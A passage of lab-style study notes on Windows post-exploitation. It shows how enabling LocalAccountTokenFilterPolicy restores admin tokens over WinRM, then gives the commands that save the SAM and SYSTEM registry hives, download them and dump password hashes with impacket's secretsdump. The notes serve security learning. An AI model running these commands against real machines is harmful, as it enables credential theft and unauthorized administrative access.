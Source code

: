 - Notice that for user `thmuser1`, being in `Backup Operators` is disabled.
- This is because of the `User Account Control(UAC)` and specifically because of `LocalAccountTokenFilterPolicy` implemented in UAC such that it ***strips*** any `local account` of its administrative privileges when `logging in remotely` (most likely to prevent RCEs).
- While you can elevate your privileges through UAC from a GUI session, if you are using WinRM, you are `confined to a limited access token with no admin privileges`.

##### Regaining admin privileges to the user after connecting with the WinRM
- Enabling the `LocalAccountTokenFilterPolicy` by changing the following registry key to '`1`':
`> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

<u>Initial State</u>:

![](/assets/img/Pasted image 20230106114827.png)

	- Notice that LocalAccountTokenFilterPolicy is NOT here.

<u>After executing the code</u>:

![](/assets/img/Pasted image 20230106115012.png)

![](/assets/img/Pasted image 20230106115032.png)

	- By adding this to the registry in this exact directory, local account users that normally have administrative privileges(say, included on administrative groups) will now ALSO have administrative privileges when connecting remotely(which normally they won't) since LocalAccountTokenFilterPolicy == 1 means elevated token.

<u>Before</u>:

![](/assets/img/Pasted image 20230106115525.png)

<u>After</u>:

![](/assets/img/Pasted image 20230106115614.png)

	- Now, the privileges of being in the "Backup Operators" group is now in effect for user 'thmuser1'.

##### Making a backup of SAM and SYSTEM files and download them on the attacker's machine:
`> reg save hklm\system system.bak`
`> reg save hklm\sam sam.bak`
`> download system.bak`
`> download sam.bak`

	- It takes a while...

![](/assets/img/Pasted image 20230106115915.png)

##### Dumping password hashes for all users using `secretsdump.py` or other similar tools:
- On another tab in the attacker's machine, execute this:
`$ python3.9 /opt/impacket/exmaples/secretsdump.py -sam sam.bak -system system.bak LOCAL`
